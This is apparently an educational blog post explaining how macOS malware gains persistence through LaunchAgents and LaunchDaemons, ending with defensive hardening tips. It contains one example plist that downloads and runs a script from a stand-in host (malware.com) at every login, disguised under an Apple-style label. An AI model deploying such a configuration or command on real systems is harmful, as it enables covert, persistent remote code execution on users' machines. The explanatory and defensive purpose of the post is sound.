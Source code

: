 ```yaml
---
layout: post
title: "Malware Persistence Mechanisms: Exploring LaunchAgents and LaunchDaemons on macOS"
date: 2023-04-17 18:30:00 +0300
categories: security
---
```

In the intricate framework of macOS boot/startup, a crucial step immediately after the kernel initialization is the initiation of `launchd`. Acting as the kernel's progeny, `launchd` is the first process to emerge in user mode. It plays a multifaceted role, with its primary responsibilities revolving around the initialization and scheduling of all system services and processes. This duty crucially includes launching both Agents and Daemons.

Apple officially recommends launch daemons and agents as the method for maintaining the persistence of non-application binaries, such as software updaters, antivirus products, and more. Regrettably, macOS malware often exploits both launch daemons and launch agents to achieve persistence. Launch daemons, being non-interactive, run before user login, while launch agents, which may be interactive, run after the user has logged in. To create a persistently launched daemon or agent, one simply needs to create the binary and then place a configuration property list in one of the respective directories.

## Understanding Property Lists: The Backbone of Agents and Daemons

Agents and Daemons, critical components of the macOS operating system, derive their instructions from their respective property list (.plist) files. Acting as command repositories, these .plist files provide explicit instructions on when and how Agents and Daemons are to be launched. This set of predefined rules plays a pivotal role in ensuring the smooth functioning of the system, achieving a balance between process management and resource allocation.

`LaunchAgents` and `LaunchDaemons` property list files can serve a dual role: they can either pinpoint a file to be executed or directly encapsulate the commands to be executed. Property lists (or 'plists'), as per Apple's terminology, are XML files utilized by macOS to store serialized objects. For every launch daemon or agent, there exists a corresponding plist that holds the essential configuration information. These files are processed as a part of the OS initialization process and can encompass key-value pairs that command the OS to initiate the daemon or agent automatically.

To ensure the correct syntax of a plist file, the property list utility (`plutil`) can be used. Particularly, the `-p` option allows printing the property list in a human-readable fashion, irrespective of its original format. This option is useful for easily reading the contents of a plist file. Here is an example command:

{% highlight sh %}
plutil -p /path/to/plist/file
{% endhighlight %}

Let's consider an example of a property list file:

{% highlight xml %}
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE plist PUBLIC "-//Apple//DTD PLIST 1.0//EN" "http://www.apple.com/DTDs/PropertyList-1.0.dtd">
<plist version="1.0">
<dict>
    <key>Label</key>
    <string>com.apple.malware</string>
    <key>ProgramArguments</key>
    <array>
        <string>/bin/sh</string>
        <string>-c</string>
        <string>curl -O http://malware.com/malware.sh; sh malware.sh</string>
    </array>
    <key>RunAtLoad</key>
    <true/>
</dict>
</plist>
{% endhighlight %}

The above example illustrates how a script from a remote server can be configured to be downloaded and executed each time the user logs in, thus underscoring the power and flexibility that property lists provide to LaunchAgents and LaunchDaemons.

## Malware Persistence through LaunchAgents

`LaunchAgents` serve as one of the most common methods for establishing malware persistence on macOS. Each user on a Mac possesses a dedicated `LaunchAgents` folder within their `Library` directory, located at `~/Library/LaunchAgents/`. This allows code to be executed each time the specific user logs in. Additionally, a system-level `LaunchAgents` folder, located at `/Library/LaunchAgents/`, facilitates the execution of code for all users upon login. Although there is a `LaunchAgents` directory for system use at `/System/Library/LaunchAgents/`, macOS, from version 10.11 onwards, manages this location, preventing unauthorized access by malware, as long as System Integrity Protection is enabled and remains intact.

`LaunchAgents` at the user level serve as the most prevalent form of persistence in real-world scenarios, primarily due to the fact that their installation does not require elevated privileges. However, starting with OSX 10.7 Lion, Apple made the arguably controversial decision to hide the parent Library directory from users by default. This decision inadvertently simplifies the task for threat actors attempting to hide these agents, especially from less technically-inclined users.

## Persistence through LaunchDaemons

Daemons, acting as system services, commence their operation during the boot process, even before any user logs in, thus maintaining a level of autonomy from individual user sessions. These Daemons follow instructions from their respective .plist files located at specific paths.

Daemons' .plist files are primarily located in two paths. The first one is `/System/Library/LaunchDaemons/`, reserved exclusively for Apple-specific Daemons. Given its sensitive nature, Apple has imposed restrictions on this location, securing its contents by making it read-only.

The second path, `/Library/LaunchDaemons/`, caters to third-party Daemons. Unlike its Apple-specific counterpart, this location is not as tightly restricted. However, it's important to note that any modifications to this path, such as writing a new daemon, necessitate root permissions. This serves as a security measure against unauthorized alterations.

Unfortunately, `LaunchDaemons`, owing to their inherent non-interactive nature and initiation before user login, often become prime targets for malware. These illicit software pieces exploit these characteristics to achieve persistence. Therefore, writing a daemon to `/Library/LaunchDaemons` requires administrator-level privileges. However, this often isn't a significant obstacle. Since most Mac users often grant authorization for software installation, this security requirement is frequently bypassed, making the system vulnerable to infections in the wild.

## Strengthening System Security

Overall, while launch daemons and agents provide a legitimate and convenient way for software to maintain persistence on macOS, their simplicity and ease of use also make them vulnerable to exploitation by malware. Users and administrators should remain vigilant and monitor the contents of launch daemon and agent directories to detect any suspicious or unauthorized activity.

To further protect your system, consider adopting the following security practices:

1. Regularly update your operating system and applications to ensure you have the latest security patches.
2. Install a reputable antivirus solution and keep it up to date.
3. Be cautious when downloading software or opening email attachments, especially from unknown sources.
4. Limit user account privileges, using administrator accounts only when necessary.
5. Implement strong and unique passwords for all user accounts.
6. Enable macOS's built-in security features, such as FileVault for disk encryption and the built-in firewall.
7. Regularly back up your data to protect against data loss in case of a malware attack.

By understanding how malware leverages `LaunchAgents` and `LaunchDaemons` for persistence and implementing robust security measures, you can significantly reduce the risk of infection and protect your macOS system from threats in the wild.